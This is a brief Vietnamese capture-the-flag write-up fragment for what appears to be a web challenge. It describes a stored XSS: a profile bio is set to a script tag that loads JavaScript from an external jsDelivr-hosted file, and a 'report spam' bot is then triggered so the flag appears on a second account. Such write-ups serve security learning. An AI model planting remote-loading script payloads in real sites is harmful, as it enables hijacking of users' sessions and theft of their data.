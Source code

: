 Update profile của ta thành (lưu ý ta nên sử dụng 2 account: account thực hiện XSS và account nhận flag)

```jsx
<script src="https://cdn.jsdelivr.net/gh/vcth4nh/misc@main/openbio_fetch.js"></script>
```

Copy link profile, đăng nhập vào account nhận flag, mở link ta vừa copy và ấn report spam. Back về trang profile của account nhận flag sẽ thấy có flag